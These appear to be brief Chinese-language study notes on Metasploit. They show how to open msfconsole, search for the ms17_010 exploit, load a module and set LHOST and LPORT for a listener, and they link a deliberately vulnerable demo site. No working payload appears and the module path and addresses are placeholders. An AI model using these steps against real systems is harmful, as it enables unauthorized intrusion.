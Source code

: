 http://testfire.net/



## metasploit



shellcode

自动攻击脚本

kali自带



打开

```bash
msfconsole
```



查询漏洞

```
search ms17_010
```



使用模块，直接use查询的全称

```
use xxxxx/xxxxx/xxxxx/xxxx/xxxx
```



进入到模块，查看配置

```
show options
```



```
ping 目标ip
```



然后一个一个去set设置

```
set LHOST xxx.xx.xxx.x
```

设置listen攻击端口

```
set LPORT 12345
```



